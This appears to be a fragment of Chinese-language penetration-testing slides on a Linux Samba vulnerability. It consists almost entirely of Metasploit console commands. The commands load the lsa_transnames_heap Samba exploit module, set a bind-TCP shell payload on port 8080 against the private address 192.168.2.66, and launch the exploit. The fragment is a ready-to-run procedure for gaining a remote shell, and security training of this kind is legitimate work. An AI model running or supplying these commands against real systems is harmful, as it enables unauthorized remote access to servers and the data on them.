

# Linux samba漏洞
search samba
use linux/samba/lsa_transnames_heap
show payloads
set payload linux/x86/shell_bind_tcp
set LPORT 8080
set RHOST 192.168.2.66
exploit